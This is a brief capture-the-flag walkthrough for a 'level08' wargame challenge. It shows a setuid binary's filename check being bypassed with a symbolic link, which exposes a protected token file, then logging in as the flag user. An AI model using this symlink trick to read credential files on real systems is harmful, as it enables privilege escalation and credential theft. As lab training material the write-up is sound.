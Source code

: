 ```sh
$> ls -l ~
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

I decompiled `level08` :
```c
[...]
s = strstr(argv[1], "token");
if (s != NULL)
{
	printf("You may not access \'%s\'\n", argv[1]);
	exit(1);
}
[...]
```

We cannot access `token` because it is hard checked. We can use a symbolic link to `token` though.

```sh
$> ln -s ~/token /tmp/tst

$> ./level08 /tmp/tst
quif5eloekouj29ke0vouxean

$> su flag08
Password: quif5eloekouj29ke0vouxean

$> getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

